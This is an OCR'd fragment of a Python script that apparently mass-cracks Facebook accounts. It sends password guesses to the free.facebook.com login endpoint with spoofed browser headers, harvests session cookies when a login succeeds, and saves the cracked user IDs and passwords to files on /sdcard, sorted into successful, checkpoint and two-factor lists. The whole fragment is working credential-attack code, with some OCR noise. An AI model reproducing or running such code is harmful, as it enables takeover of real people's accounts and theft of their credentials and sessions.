             header = ({"authority": 'free.facebook.com',
            "method": 'GET',
           "scheme": 'https',
            "accept": 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            "accept-encoding": 'gzip, deflate, br',
            "accept-language": 'en-US,en;q=0.9',
            "cache-control": 'no-cache',
            "pragma": 'no-cache',
            "referer": 'https://free.facebook.com/',
            "sec-ch-ua": '".Not/A)Brand";v="99", "Google Chrome";v="103", "Chromium";v="103"',
            "sec-ch-ua-mobile": '?0',
            "sec-ch-ua-platform":'"Windows"',
            "sec-fetch-dest": 'manifest',
            "sec-fetch-mode": 'cors',
            "sec-fetch-site": 'same-origin',
            "user-agent":pro,})
            lo = session.post('https://free.facebook.com/login/device-based/regular/login/?refsrc=deprecated&amp;lwv=100&amp;refid=8',data=log_data,headers=header).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                uid = coki[7:22]
                os.system("play-audio AMIRI-OK.mp3")
                print('\r\033[1;32mAMIRI-OK] '+uid+' [√] '+ps+ '')
                cek_apk(session,coki)
                open('/sdcardAMIRI-OK.txt', 'a').write(uid+' | '+ps+'\n')
                ok.append(uid)
            elif 'checkpoint' in log_cookies:
                if 'Enter login code to continue' in log_cookies:
                    coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                    uid=coki[24:39]
                    os.system("play-audio AMIRI_2F.mp3")
                    print('\r\033[1;34mAMIRI-2F] '+uid+' [~] '+ps+' ')
                    open('/sdcardAMIRI-2F.txt', 'a').write(uid+' | '+ps+'\n')
                    twf.append(uid)
                else:
                    coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                    uid=coki[24:39]
                    Red = '\033[1;31m'
                    os.system("play-audio NAI _CP.mp3")
                    print(f'\r\033[1;30mAMIRI-CP] '+uid+' [×] '+ps+ ' ')
                    open('/sdcardAMIRI-CP.txt', 'a').write(uid+' | '+ps+'\n')
                    cp.append(uid)
                    break
            else:
                continue
        loop+=1
        sys.stdout.write(f'\r\33[1;37m[MAFYIA 313🔥] [%s] \33[1;97m[OK:%s{hamii2}CP:%s]'%(loop,len(ok),len(cp))), 
        sys.stdout.flush()
        checks(ok,cp)
    except:
        pass
#---------------------[MAIN CLONING DEF 2]---------------------#
